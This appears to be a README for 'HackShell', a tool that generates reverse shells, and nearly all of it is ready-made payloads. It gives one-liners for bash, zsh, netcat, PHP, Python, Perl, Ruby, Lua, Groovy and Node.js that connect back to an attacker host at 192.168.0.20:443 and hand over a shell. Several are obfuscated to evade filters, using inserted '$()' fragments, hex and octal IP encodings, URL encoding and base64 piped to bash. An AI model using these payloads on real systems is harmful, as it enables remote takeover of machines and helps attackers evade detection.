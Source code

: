 # HackShell - Generator of some different reverse shells:
```
usage: python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type hex

.------..------..------..------..------..------..------..------..------.
|H.--. ||A.--. ||C.--. ||K.--. ||S.--. ||H.--. ||E.--. ||L.--. ||L.--. |
| :/\: || (\/) || :/\: || :/\: || :/\: || :/\: || (\/) || :/\: || :/\: |
| (__) || :\/: || :\/: || :\/: || :\/: || (__) || :\/: || (__) || (__) |
| '--'H|| '--'A|| '--'C|| '--'K|| '--'S|| '--'H|| '--'E|| '--'L|| '--'L|
`------'`------'`------'`------'`------'`------'`------'`------'`------'

optional arguments:
  -h, --help         show this help message and exit
  --payload PAYLOAD  bash,zsh,nc,php,python,perl,ruby,lua,groovy,nodejs,all
  --lhost LHOST      ip
  --lport LPORT      port
  --type TYPE        b64,urle,int,octa,hex,jlre,funf
```
#### e.g.
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.20",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type hex
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0xC0A80014",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type octa
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0300.0250.0000.0024",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type long
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3232235540",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type jlre
`
```
py%24%28%29thon%20%24%28%29c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.0.20%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type b64
`
```
cHkkKCl0aG9uIC0kKCljICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4wLjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw==
```
`
python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type jlre
`
```
bash -c {echo,YmEkKClzaCAtJCgpaSAnL2Rldi90Y3AvMTkyLjE2OC4wLjIwLzQ0MyAwPiYxJw==}|{base64,-d}|{bash,-i}
```

`
python hackshell.py --payload all --lhost 192.168.0.20 --lport 443
`
-> bash  
```
ba$()sh -$()i '/dev/tcp/192.168.0.20/443 0>&1'
```
-> zsh  
```
zsh -c 'zmodload zsh/net/tcp && ztcp192.168.0.20443&& zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```
-> nc  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|n$()c 192.168.0.20 443 >/tmp/f
```
-> php  
```
ph$()p -$()r '$sock=fsockopen("192.168.0.20",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
-> python  
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.20",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
-> perl  
```
pe$()rl -$()e 'use Socket;$i="192.168.0.20";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
-> ruby  
```
ru$()by -rsocket -$()e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.0.20",443))'
```
-> lua  
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('"192.168.0.20"','443');os.execute('sh -i <&3 >&3 2>&3');"     
```
-> groovy  
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.20/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
-> nodejs  
```
require('child_process').exec('nc -e sh 192.168.0.20 443')
```
